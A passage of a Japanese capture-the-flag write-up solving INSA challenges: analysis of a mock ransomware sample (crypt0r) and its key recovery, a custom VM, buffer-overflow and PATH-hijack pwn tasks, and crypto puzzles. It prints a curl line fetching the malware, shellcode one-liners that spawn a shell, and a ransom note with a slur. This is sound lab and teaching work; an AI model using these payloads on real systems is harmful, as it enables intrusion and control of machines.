```

`curl "http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/win32/crypt0r.exe?p=r&l=2565454484514854845487848" -d "kgjgepog=kfOIIIeeoezj==" -A "Made by b4cc4rd1"` という感じで crypt0r.exe をダウンロードし、実行しています。

http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/.flag にフラグがありました。

```
INSAc79371180eddac4582321f98d32db67c
```

## [Reverse 150] Crypt0r Part2

http://glkrgjoegjnfozpkfpze.gpozgzejgozjaaacc.sweetvpn.top/binaries/arch/dbg64/ で `crypt0r.jessie` と `crypt0r.wheezy` の 2 つのバイナリが得られました。

`crypt0r.jessie` を実行してみると以下のような結果になりました。

```
$ ./crypt0r.jessie
The file to encrypt has not been found.
$ ltrace ./crypt0r.jessie
__libc_start_main(0x403616, 1, 0x7ffc559a9f48, 0x403780 <unfinished ...>
fopen("./crypt0r.jessie", "rb")                                                         = 0xcc2010
fseek(0xcc2010, 0, 2, 0xfbad2480)                                                       = 0
ftell(0xcc2010, 0xcc20f0, 0, 0x5ad6)                                                    = 0x5ad6
fseek(0xcc2010, 0x5ace, 0, 0x5ace)                                                      = 0
fread(0x7ffc559a9e08, 8, 1, 0xcc2010)                                                   = 1
fseek(0xcc2010, 0x56fc, 0, 0x56fc)                                                      = 0
malloc(979)                                                                             = 0xcc2250
fread(0xcc2250, 978, 1, 0xcc2010)                                                       = 1
fclose(0xcc2010)                                                                        = 0
fopen("crypt.me", "r")                                                                  = 0
printf("The file to encrypt has not been"...The file to encrypt has not been found.
)                                           = 40
+++ exited (status 1) +++
```

`crypt.me` が存在する場合のみ、`crypt.me` を暗号化するようです。`echo flag{DUMMY} > crypt.me` して再度実行すると以下のようになりました。

```
$ ./crypt0r.jessie
src/crypt.c :: 149181049

src/crypt.c :: Generate p
src/crypt.c :: Generate q
src/crypt.c :: Compute n
src/crypt.c :: Compute phi
src/crypt.c :: Generate e
src/crypt.c :: Compute modular inverse
src/crypt.c :: Compute derivative p
src/crypt.c :: Compute derivative q
src/crypt.c :: Compute modular inverse of q mod p
src/crypt.c :: Gonna encrypt the input
src/crypt.c :: Got encrypted data.
src/comm.c :: Retrieve enc key
src/comm.c :: Connect to the CnC.
src/comm.c :: Get host by name
src/comm.c :: cnc.challenge-by.ovh
src/comm.c :: Prepare sockaddr
src/comm.c :: Connect.
src/comm.c :: Cannot connect.
src/comm.c :: Cannot retrieve key
src/main.c :: Write enc file.
src/main.c :: BAM
      ____                  _    ___       
     / ___|_ __ _   _ _ __ | |_ / _ \ _ __
    | |   | '__| | | | '_ \| __| | | | '__|
    | |___| |  | |_| | |_) | |_| |_| | |   
     \____|_|   \__, | .__/ \__|\___/|_|   
                |___/|_|                   


   !!  You've been Crypt0riz3d nigga  !!

Send 50 bitcoins on my wallet to get back
your file and send me the following code:
                 38fe-452-6

If you don't, in 7 days it's gonna be 100.

Your file has been encrypted using RSA
algorithm, only my decrypt0r can give you
the file back.

~~~ Cyber Super Villain of the Darknet ~~~

src/main.c :: free mem
src/crypt.c :: free_keys()
```

`decrypt.me` に暗号化されたファイル、`private.pem` に秘密鍵が書き込まれました。暗号化されたファイルの復号は Crypt0r Part3 でやることにして、まずはバイナリの解析をしましょう。

`crypt0r.jessie` を strings にかけると、`Generate p` や `Generate q` のような文字列は見つかりますが `crypt.me` `If you don't, in 7 days it's gonna be 100.` のような文字列は見つかりません。これらの文字列はどこから出てきたのでしょう。

`fopen("crypt.me", "r")` がどこで実行されているのか探していると、以下のような処理を見つけました。

```
  40338f:	bf 08 00 00 00       	mov    edi,0x8
  403394:	e8 e5 fe ff ff       	call   40327e <BN_is_prime@plt+0x1d5e>
  403399:	be 80 3b 40 00       	mov    esi,0x403b80
  40339e:	48 89 c7             	mov    rdi,rax
  4033a1:	e8 aa de ff ff       	call   401250 <fopen@plt>
```

0x8 を引数に 0x40327e を呼び、その返り値を fopen に渡しています。ここにブレークポイントを仕掛けて返り値が何か調べてみましょう。

```
$ gdb ./crypt0r.jessie
(gdb) b *0x403399
(gdb) r
(gdb) x/s $rax
0x6055e3:       "crypt.me"
```

`crypt.me` が出てきました。

引数をいろいろ変えて実行していると、3 のときにフラグが出てきました。

```
(gdb) call 0x40327e(3)
$1 = 6312610
(gdb) x/s $1
0x6052a2:       "INSAd64f428d49e137f68198597ea46d36df"
```

```
INSAd64f428d49e137f68198597ea46d36df
```

## [Reverse 250] Crypt0r Part3

暗号化されたファイルが *tar 形式で* 与えられました。

どのようにして暗号化に使う鍵を決めているか調べていると、以下のような処理を見つけました。

```
$ ltrace ./crypt0r.jessie 2>&1 | head -50
...
popen("echo $(( `date +%s` / 10 ))", "r")        = 0x101b010
getline(0x7ffdc9486070, 0x7ffdc9486068, 0x101b010, 0x7ffdc9486068 <no return ...>
--- SIGCHLD (Child exited) ---
<... getline resumed> )                          = 10
pclose(0x101b010)                                = 0
atoi(0x101b120, 0, 0, 0xfbad000c)                = 0x8e45350
printf("%s :: %s\n", "src/crypt.c", "149181264\n") = 26
BN_CTX_new(0x8e45350, 0x7fffffe6, 0x7fdd4190e7a0, 25) = 0x101b1a0
BN_new(0, 0x20800, 0x101b1a0, 0x7fdd4190c620)    = 0x101b1f0
BN_new(0x7fdd4190c620, 96, 0x101b1f0, 0x7fdd4190c620) = 0x101b210
BN_new(0, 0x20810, 0x101b210, 0x7fdd4190c620)    = 0x101b230
BN_new(0x7fdd4190c620, 32, 0x101b230, 0x7fdd4190c620) = 0x101b010
srand(0x8e45350, 0x20000, 0x101b010, 0x7fdd4190c620) = 0
...
```

どうやら `srand(time(NULL) / 10)` 相当のことをしているようです。

tar 形式でファイルが与えられたので、暗号化されたファイルのタイムスタンプを知ることができます。date を常に暗号化された日時を返すようにして、暗号化されたときに使われた秘密鍵を得ましょう。

```
$ cat date
#!/bin/bash
echo 1491239658
$ PATH=. ./crypt0r.jessie
...
$ cat the-file-to-decrypt.flag | openssl rsautl -decrypt -inkey private.pem
Congratulations !

You did decrypt this file. You really should consider joining OVH since we're
looking at candidates just like you. However, here's your reward:

INSA18c21e583eb590c14278068989349ac8
```

```
INSA18c21e583eb590c14278068989349ac8
```

## [Reverse 150] Proprietary cctv software

Python 3.5 辺りの pyc ファイルが与えられます。デコンパイルすると PyQt5 を使った、アクティベーションコードの入力を行うコードが出てきました。

めんどくさい処理をして入力されたアクティベーションコードのチェックをしていますが、フラグの生成には入力された文字列は使われていないようです。

直接 `ActivatedWidget.finalize()` を呼ぶとフラグが出てきました。

```python
a = ActivatedWidget()
print(a.finalize())
```

```
INSA{4ctiv4t0r_c4n_b3_byp4ss3d!K3YG3N}
```

## [Reverse 200] Secure Garden Shed V1

`lock.sgsc` という謎のフォーマットの実行ファイルと、それを実行できる `sgs-exec-release` というバイナリが与えられます。

また、Secure Garden Shed V2 では `SGS-ASM.txt` という、`lock.sgsc` で使われている命令やレジスタのドキュメントが与えられます。

試しに実行してみると、以下のような結果になりました。

```
$ ./sgs-exec-release lock.sgsc
Enter pasword ([a-z]):
hoge
Sorry but the password you gave is wrong...
```

`SGS-ASM.txt` によると `EQU` という命令があり、恐らくこれを使ってパスワードのチェックを行っているはずです。

適当に `sgs-exec-release` を解析すると、0x19fe 辺りでどの命令を実行するか判断し、ジャンプテーブルを使って命令ごとに処理を行っているようです。

```
loc_19FE:
    mov     eax, [ebx+90h]
    mov     eax, [eax+esi*4]
    rol     ax, 8
    rol     eax, 10h
    rol     ax, 8
    mov     edx, eax
    shr     edx, 1Ch ; instr (4 bits)
    mov     ecx, [ebx+edx*4-1DB8h] ; jump table (0x31e0)
    add     ecx, ebx
    jmp     ecx
```

ジャンプテーブルを参照すると、`EQU` は 0x1e5c から処理を行っていることがわかります。

```
    mov     ecx, [ebx+88h]  ; EQU
    mov     edx, eax
    shr     edx, 0Dh
    mov     edi, edx

loc_1E69:
    test    eax, 4000000h
    jnz     loc_1F9C
    and     edi, 1000h

loc_1E7A:
    cmp     edi, 1
    sbb     edi, edi
    and     edi, 2
    dec     edi
    and     edx, 0FFFh
    imul    edx, edi
    test    eax, 8000000h
    jz      loc_1FCF

loc_1E97:
    and     eax, 1FFFh
    mov     ebp, eax
    movzx   edi, byte ptr [ecx+eax+3]
    shl     edi, 18h
    movzx   eax, byte ptr [ecx+eax+2]
    shl     eax, 10h
    or      edi, eax
    movzx   eax, byte ptr [ecx+ebp]
    or      edi, eax
    movzx   eax, byte ptr [ecx+ebp+1]
    shl     eax, 8
    or      eax, edi
    xor     edx, eax
    xor     eax, eax
    test    dl, dl
    setz    al
    mov     [ecx+4], eax
    jmp     exec_instr_0x1a70
```

0x1ec0 にブレークポイントを仕掛けて eax を見るとパスワードが 1 文字ずつ分かりました。

```
(gdb) b *0x80001ec0
(gdb) r lock.sgsc
Enter pasword ([a-z]):
hogefuga

Breakpoint 1, 0x80001ec0 in ?? ()
(gdb) p/c $eax
$1 = 116 't'
...
$3 = 104 'h'
...
$5 = 105 'i'
...
$7 = 115 's'
...
```

パスワードは `thisisastrongpassphrasebecauseitisreallylongandrandomattheenduoiiencger` でした。

```
$ ./sgs-exec-release lock.sgsc
Enter pasword ([a-z]):
thisisastrongpassphrasebecauseitisreallylongandrandomattheenduoiiencger
Well done! Here is your flag: INSA{Cust0m_15_N0t_S0_E4sy_t0_R3v3rs3_;)}
```

```
INSA{Cust0m_15_N0t_S0_E4sy_t0_R3v3rs3_;)}
```

## [Reverse 100] Secure Garden Shed V2

Secure Garden Shed V1 のバイナリとの差異を確認してみると、V1 のジャンプテーブル上では `NOP` と同じだった `AFT.B` が実装されていることが分かります。

```
$ xxd aft-b.sgsc
0000000: 2e53 4753 452e 636f 6465 7000 0000 2e64  .SGSE.codep....d
0000010: 6174 61                                  ata
$ ./sgs-exec-release-p aft-b.sgsc
INSA{34573R_3995_4r3_s0_NUF!}
```

```
INSA{34573R_3995_4r3_s0_NUF!}
```

## [Pwn 75] lsEasy

```c
#include <stdio.h>

void main()
{
	printf("The content of the current folder is : \n");
	system("ls -l");
}
```

というソースが与えられます。ls を差し替えてしまいましょう。

```
$ mkdir /tmp/haifuri
$ cd /tmp/haifuri
$ cat ls.c
#include <stdlib.h>
int main(void) {
  system("/bin/sh");
  return 0;
}
$ gcc ls.c -o ls
$ cd
$ PATH=/tmp/haifuri ./vuln
$ /bin/cat flag
INSA{SySt3m_1s_3v1l_-}
```

```
INSA{SySt3m_1s_3v1l_-}
```

## [Pwn 125] Crazy Minitel

```
./vuln $(python -c "import struct; print 'A' * 268 + struct.pack('<I', 0xbffffa00 + 272) + '\x90' * 0x100 + '\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'")
```

```
INSA{1_l0v3_BuFF3|2_Ov3r}
```

## [Pwn 150] Connected Spoon

```
for i in {1..1000}; do ./vuln $(python -c "import struct; shellcode = '\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'; print '\x90' * (2012 - len(shellcode)) + shellcode + struct.pack('<I', 0xbff97580); done
```

```
INSA{BuFF3|2_aG4IN_ASLR-}
```

## [Crypto 125] RSA16M

16777216 ビットの公開鍵を持つ RSA でした。暗号文の 65537 乗根を計算するとフラグが得られました。

```python
import gmpy2
import rsa_16m
x = gmpy2.iroot(rsa_16m.c, 65537)
print hex(x[0])[2:].decode('hex')
```

```
INSA{(I)NSA_W0uld_bE_pr0uD}
```

## [Crypto 225] Boulicoin

```python
#!flask/bin/python
from flask import Flask
from flask import jsonify
from flask import request
from Crypto.Cipher import AES
import base64
import boulicoin
import json

app = Flask(__name__)

def pad(data):
    length = 16 - (len(data) % 16)
    data += chr(length)*length
    return data

def unpad(data):
    assert data[-ord(data[-1]):]==ord(data[-1])*data[-1]
    return data[:-ord(data[-1])]

def encrypt(data):
    aes=AES.new(boulicoin.SECRET_KEY, AES.MODE_CBC, boulicoin.AES_IV)
    return base64.b64encode(aes.encrypt(pad(str(data))))

def decrypt(data):
    aes=AES.new(boulicoin.SECRET_KEY, AES.MODE_CBC, boulicoin.AES_IV)
    return unpad(aes.decrypt(base64.b64decode(data)))

@app.route('/task')
def getTask():
    items,size,scoreMin = boulicoin.generateTask()
    itemsEnc = encrypt(items)
    sizeEnc = encrypt(size)
    scoreMinEnc = encrypt(scoreMin)
    return jsonify({'items':items,
                    'size':size,
                    'scoreMin':scoreMin,
                    'itemsEnc':itemsEnc,
                    'sizeEnc':sizeEnc,
                    'scoreMinEnc':scoreMinEnc})

@app.route('/coin', methods=['POST'])
def getCoin():
    req=request.json
    if ('itemsEnc' not in req) or ('sizeEnc' not in req) or ('scoreMinEnc' not in req) or ('selected' not in req):
        return jsonify({'status':'error','message':'JSON attributes missing'})
    items=[]
    size=-1
    try:
        items=json.loads(decrypt(req['itemsEnc']))
        size=int(decrypt(req['sizeEnc']))
        scoreMin=int(decrypt(req['scoreMinEnc']))
        selected=req['selected']
        assert type(selected)==type([])
        assert len(set(selected))==len(selected)
    except:
        return jsonify({'status':'error','message':'Failed to decode data.'})

    score=0
    weight=0
    try:
        for it in selected:
            if it<0 or it>=len(items):
                return jsonify({'status':'error','message':'Invalid item index.'})
            score+=items[it][0]
            weight+=items[it][1]
    except:
        return jsonify({'status':'error','message':'Invalid proof of work.'})

    if score>=scoreMin and weight<=size:
        coin=boulicoin.generateCoin()
        assert coin.startswith('INSA{')
        return jsonify({'status':'success','boulicoin':coin})
    return jsonify({'status':'error','message':'Invalid proof of work.'})


if __name__ == '__main__':
    app.run(debug=True)

```

というようなソースが与えられます。

何度か試して size、sizeEnc、scoreMin、scoreMinEnc を集めて、本番では有利な条件に差し替えて解いてしまいましょう。

```
INSA{Th3_futur3_i5_iN_MaurinC0in}
```

## ([Web 100] Coffee)

時間内には解けませんでしたが、終わってからすぐ解けたのでとりあえず。

HTCPCP のクライアントを書く問題でした。

```python
import requests
import time

url = 'https://coffee.insecurity-insa.fr/coffee'
auth = ('Coffee_Machine', 'Coffee_Password')
headers = {
  'Content-Type': 'message/coffeepot',
  'milk-type': 'Half-and-half',
  'syrup-type': 'Raspberry'
}

def debug(req):
  print(req.headers)
  print(req.cookies)
  print(req.content.decode('ascii'))
  print('=' * 25)

r = requests.request('PROPFIND', url, auth=auth, headers=headers)
debug(r)

r = requests.request('BREW', url, auth=auth, headers=headers, data=b'info')
cookies = r.cookies
debug(r)

r = requests.request('BREW', url, auth=auth, headers=headers, data=b'start')
cookies = r.cookies
debug(r)

time.sleep(16)

r = requests.request('BREW', url, auth=auth, cookies=cookies, headers=headers, data=b'stop')
cookies = r.cookies
debug(r)

r = requests.request('BREW', url, auth=auth, cookies=cookies, headers=headers, data=b'milk')
cookies = r.cookies
debug(r)

time.sleep(4)

r = requests.request('WHEN', url, auth=auth, cookies=cookies, headers=headers)
cookies = r.cookies
debug(r)

r = requests.request('GET', url, auth=auth, cookies=cookies, headers=headers)
cookies = r.cookies
debug(r)
```

```
INSA{April_Fool_of_Coffee_Machine}
```
